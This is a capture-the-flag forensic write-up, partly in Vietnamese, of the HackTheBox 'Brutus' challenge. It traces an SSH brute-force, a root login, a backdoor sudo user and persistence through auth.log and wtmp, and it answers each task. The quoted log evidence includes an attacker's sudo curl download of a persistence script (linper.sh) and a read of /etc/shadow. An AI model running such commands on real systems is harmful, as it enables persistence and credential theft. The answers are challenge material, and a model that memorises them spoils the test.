

# Brutus

#### **Sherlock Scenario**

In this Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

- wtmp logs ghi lại các lượt đăng nhập và đăng xuất của user trên hệ thống.

> *Task 1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?*
> 
- nhiều invalid user admin từ ip 65.2.161.68 → brute-force




answer: `65.2.161.68` 

> *Task 2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?*
> 

Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)


`root`

> *Task 3: Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.*
> 
- auth.log chỉ chỉ ra thời điểm người dùng xác thực thành công, còn wtmp mới chỉ ra thời điểm phiên terminal được khởi tạo cho người dùng SSH.
- Sử dụng script utpm.py để đọc file nhị phân wtmp, phân tích file log wtmp
    
    
    
    - type BOOT_TIME là khởi động hệ thống
- Thấy nhiều lượt đăng nhập ubuntu và root từ IP 203.101.190.9, đây có lẽ là lượt đăng nhập hợp lệ của admin.
- Sau đó thấy ip của attacker đăng nhập thành công brute-force đã tìm thấy ở Task 2.
    
    ```jsx
    "USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 13:32:45"	"387923"	"65.2.161.68"
    ```
    
- Vấn đề của script utmp.py: Nếu nhìn vào mã nguồn của script python đã dùng, đoạn xử lý thời gian có sử dụng hàm time.localtime(). Hàm này sẽ tự động lấy thời gian gốc trong file nhị phân và cộng thêm múi giờ của chiếc máy tính đang chạy lệnh đó.
- Ở Việt Nam giờ là UTC+7

`2024-03-06 06:32:45`

> *Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?*
> 
- Sau khi login, trình quản lý đăng nhập của hệ thống (systemd-logind) chính thức cấp cho phiên này một mã số


- trước đó có accepted session 34 là do công cụ brute-force của attacker mới tìm ra password và đóng kết nối ngay lập tức. Bằng chứng trong wtmp chỉ xuất hiện log từ attacker vào 2024-03-06 06:32:45, tức là session 34.
- session tiếp theo là 37 do chính attacker đăng nhập để điều khiển hệ thống, attacker đã tạo user và group mới là cyberjunkie, sau đó add user này vào group sudo.

`37`

> *Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?*
> 
- như đã giải thich ở trên, kẻ tấn công đã tạo user và group sau đó add user `cyberjunkie` vào group ‘sudo’

`cyberjunkie` 

> *Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?*
> 

Tactic: Persistence

Techniques: Create Account

sub-techniques: Local Account 

ID: `T1136.001`

> *Task 7: What time did the attacker's first SSH session end according to auth.log?*
> 

```jsx
"DEAD"	"2491"	"pts/1"	""	""	""	"0"	"0"	"0"	"2024/03/06 13:37:24"	"590579"	"0.0.0.0"
```

`2024-03-06 06:37:24`

> *Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?*
> 
- Attacker đăng nhập vào tài khoản mà chúng đã tạo và cấp quyền là `cyberjunkie` và download script qua curl
    
    ```jsx
    Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
    ```
    

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

#### Mapping Mitre ATT&CK

| Tactic | ID | Technique | Detail |
| --- | --- | --- | --- |
| Initial Access | T1078.001 | Valid Account: Local Account | ssh thành công bằng tài khoản hợp lệ root |
| Credential Access | T1110.001 | Brute-Force: Password Guessing | brute-force tìm password của các user phổ biến của hệ thống: `root`, `admin`, `backup`, `svc_account`, `server_adm` |
| Persistence | T1098.007 | Account Manipulation: Additional Local or Domain Groups | thêm cyberjunkie vào group sudo |
|  | T1136.001 | Creater Account: Local Account | tạo user cyberjunkie |
| Privilege Escalation | T1098.007 |  | thêm cyberjunkie vào sudo để nâng quyền |
| Discovery  | T1087.001 | Account Discovey: Local Account | cat /etc/shadow |
| Command and Control | T1105 | Ingress Tool Transfer | curl http://…liner.sh |